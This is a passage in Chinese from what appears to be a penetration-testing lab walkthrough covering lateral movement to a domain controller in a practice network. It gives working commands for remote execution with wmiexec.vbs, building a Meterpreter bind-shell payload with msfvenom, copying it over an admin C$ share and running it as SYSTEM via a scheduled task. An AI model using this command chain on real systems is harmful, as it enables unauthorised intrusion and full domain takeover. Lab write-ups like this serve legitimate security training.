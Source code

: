 然后像第一台机子一样抓管理员密码

还看到个思路：

> 也可以添加用户和使用regeorg+proxifier进入内网连接，然后用netsh中转得到session

### 域控

然后就是域控，ip是192.168.52.138，

因为前面已经拿到域用户的用户名和密码了

> wmiexec.vbs：[K8tools/wmiexec.vbs at master (github.com)](https://github.com/seldomlee/K8tools/blob/master/wmiexec.vbs)

先把wmi上传到win7里，然后在win7这台机子

```
cscript.exe wmiexec.vbs /cmd 192.168.52.138 whoami
```

得到回显

![](https://s2.loli.net/2022/03/09/grN7QxLdpKWy1RM.png)

同理传个msf的木马到win7，然后域控下回来~

```
msfvenom -p windows/meterpreter/bind_tcp -f exe -o zs.exe
```



用win7连接域控的C盘共享

```
net use \\192.168.52.138\c$ "!admin123" /user:"administrator"
```

查看域控c盘

```
dir \\192.168.52.138\c$
```

把msf的木马文件复制过去

```
copy C:\phpStudy\WWW\zs.exe \\192.168.52.138\c$
```

![](https://i.loli.net/2021/11/07/GcOn61DaelTCryd.png)

然后

```
cscript.exe wmiexec.vbs /cmd 192.168.52.138 c:\zs.exe
```

也可以开个定时任务

```
shell schtasks /create /tn "test" /tr c:\zs.exe /sc once /st 18:05 /S 192.168.52.138 /RU System  /u administrator /p "!admin123"
```

